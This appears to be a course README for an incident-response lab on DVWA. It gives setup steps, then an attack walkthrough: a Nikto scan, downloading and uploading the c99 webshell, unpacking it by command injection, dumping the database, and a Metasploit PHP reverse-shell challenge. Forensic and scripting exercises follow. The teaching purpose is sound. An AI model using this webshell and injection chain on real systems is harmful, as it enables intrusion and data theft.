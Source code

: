 # Week 1 - Dam Vulnerable Web App(DVWA)
This week we are using DVWA for our incident response demo. DVWA provides a broken webapp that is ready to be hacked out of the box. Docker was platform of choice because if a container becomes corrupted just restart it :).

## Setup demo
### AWS security group
0. Restrict AWS security group to RIT IP address range

### Setup DVWA on AWS Ubuntu 16.04
0. vim hosts and add IP addr of host under "[dvwa]"
0. ansible-playbook -i hosts deploy_dvwa.yml

### Access Docker container
0. ssh to host
0. docker exec -it dvwa_demo bash

## Perform attack
### Nikto scanner
0. nikto -host http://benatcost.hackinglab.beer

### Zip, upload and unzip c99.php
0. Start Kali Linux VM
0. wget https://raw.githubusercontent.com/tennc/webshell/master/php/PHPshell/c99/c99.php
0. gzip -f c99.php
0. Browse http://<IP addr of DVWA> with CHROME and login
    1. User: admin
    1. Pass: password
0. Select "Upload" on the left
0. Select "Choose file", "c99.php.gz" then "Upload"
0. Select "Command injection" on the right
0. Enter "/bin/gunzip -v ../../hackable/uploads/c99.php" into "Enter ip address"
0. Browse to http://benatcost.hackinglab.beer/hackable/uploads/c99.php

### Dump database
0. mysql -u root -e "show databases;"
    1. There is no root password
0. mysql -u root -e "use dvwa; show tables"
0. mysqldump -u root --database dvwa

## Incident reponse demo
### Understanding the machine
It is important to understand the machine you are investigating

0. What is the operating system of the attacker machine?
0. What is the kernel of the attacked machine?
0. What timezone  of the attacked machine?
0. What is the ip address of the attacked machine?
0. What is the MAC address of the attacked machine?
0. What is the hostname of the attacked machine?
0. What services are listening on the box and what ports?(hint netstat)?
0. What are the versions of the services?
0. Do the services have any known vulnerabilities?
0. What users are on the attacked machine?

### Become the cyber detective
0. Where are the web servers logs located?
0. What is the diff between the error.log and access.log
0. What are the user permissions of the log files?
0. What is the timezone and time format of the webservers logs
0. What is the attacker's IP address
0. What is the attackers user-agent?
0. What webshell did the attacker use?
0. Where was that webshell uploaded to?
0. What commands/actions did the attacker use?
0. Lookup three mitigations for next week

### Scripting challenges
0. Create a Github account and repo called “DFIRtooklit”
    1. Choose your own repo name
    1. Repo can be private or public -- your choice - mine is private
    1. If you don’t create a repo you receive no points for everything else
0. Create a script in your language of choice to do everything in the “understanding the machine” and then add three of your own.
    1. Create a script(s) that will parse webserver logs for:
    1. Unique list(no duplicates) of user ip addresses
    1. Unique list(no duplicates) of URIs 
    1. Unique list(no duplicates) of CMDs run by c99
    1. Unique list(no duplicates) of CMD responses by c99
    1. OUTPUT MUST BE PRETTY


### Red team challenge
Create a PHP reverse shell with Metasploit
* attack: http://benatcost.hackinglab.beer:8080
* DO NOT ATTACK port 80

### Restart Docker container if corrupted
0. docker restart dvwa_pwn

# Resources/Sources
* https://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson14/index.html